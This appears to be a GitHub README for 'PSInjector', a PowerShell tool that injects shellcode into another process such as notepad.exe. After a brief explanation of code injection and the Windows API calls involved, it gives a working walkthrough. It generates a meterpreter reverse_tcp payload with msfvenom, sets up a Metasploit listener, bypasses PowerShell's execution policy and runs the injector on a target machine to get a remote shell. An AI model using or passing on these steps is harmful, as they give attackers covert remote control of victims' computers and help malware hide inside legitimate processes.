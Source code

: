 # PSInjector
Code injection is a technique where a process can insert a part of or all of its code from its own running process into another target process and get the target process to execute the injected code.


![image](https://user-images.githubusercontent.com/68971838/210256124-30b065df-ff35-4a5a-af9e-6d956c6be52a.png)

Code Injection Motives

Code injection is performed in both user mode and kernel mode. Malware mainly uses code injection for the following reasons.

• Hiding their presence, also known as stealth 

• Process piggybacking 

• Altering functionality of another process or entire OS


Steps for Code Injection
Code injection is largely handled in the following steps.

1. Locate the target for code injection. 

2. Inject the code. 
  
  a. Allocate/create memory/space in the target process of virtual memory. 
  
  b. Write/inject code into the allocated memory/space in the target 

3. Execute the injected code in the target.


This is a script written in PowerShell that injects a payload into another process. The payload is in the form of an array of bytes and is injected into the process with the ID specified by the $procId variable. in our case is notepad.exe

The LookupFunc function is used to get the address of a function in a dynamic-link library (DLL). It takes a DLL name and the name of a function as input and returns the address of the function. The getDelegateType function is used to create a delegate type for a function. A delegate is a type that represents a reference to a method.

The OpenProcess function is used to get a handle to the process with the specified ID. The VirtualAllocEx function is used to allocate memory within the virtual address space of the process. The WriteProcessMemory function is used to write the payload to the memory that was allocated. Finally, the CreateRemoteThread function is used to create a thread that runs in the context of the process and begins execution at the specified memory address.


First we need the shellcode, to create shellcode we will use msfvenom:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1

copy the shellcode and paste it in the injector like so:
![image](https://user-images.githubusercontent.com/68971838/210256780-c6cb4897-9a04-4515-acce-8ae28705aef2.png)


Now set up a listener in the Metasploit Framework (MSF), you first need to start the MSF console:

msfconsole

use multi/handler

set PAYLOAD windows/x64/meterpreter/reverse_tcp 

set LHOST IP

set LPORT PORT


Now run the injector on the target machine:

Note:
If you have a script that you need to run and the execution policy is set to Restricted, you can bypass the execution policy:
Set-ExecutionPolicy Unrestricted

Now run in powershell prompt:
./PSinjector

and check ur listener:

![image](https://user-images.githubusercontent.com/68971838/210256969-2ca9869f-7781-4888-88f4-fe7bb5a8b6bc.png)


Author: SPNl48 :)))

jenna Ortega fan 


